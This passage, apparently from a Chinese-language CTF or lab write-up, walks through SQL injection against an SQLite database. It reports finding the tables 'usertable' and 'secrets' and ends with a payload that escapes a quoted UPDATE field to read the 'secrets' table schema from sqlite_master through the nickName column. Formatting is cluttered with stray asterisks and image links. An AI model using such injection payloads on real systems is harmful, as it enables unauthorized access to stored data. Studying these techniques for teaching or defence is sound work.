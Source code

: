 *****![](img/6cd9ffc0a44e21c80ced4cf080b07cb1.png)*****

*****通过注入上面的代码，我们可以看到数据库中唯一的表叫做" **usertable** 和" **secrets"*******

*****![](img/89a9fc49ef632effaa4cecc1263d3f28.png)*****

*****然后我们继续从**用户表:**中提取所有的列名*****

```
***',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='secrets'),email='***
```
